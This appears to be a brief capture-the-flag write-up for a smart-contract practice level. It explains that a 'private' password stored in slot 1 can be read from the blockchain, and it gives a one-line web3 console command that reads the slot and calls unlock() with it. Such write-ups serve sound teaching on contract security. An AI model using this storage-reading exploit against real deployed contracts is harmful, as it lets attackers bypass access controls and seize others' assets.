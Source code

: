 Slot 0 occupies bool locked and as password is bytes32 it cannot be stored at slot 0 so it is stored at slot 1 and to get the password at slot 1 and unlock the contract we can run this command in the console. Everything on blockchain can be read even if its private.

```
await contract.unlock(await web3.eth.getStorageAt(contract.address, 1));
```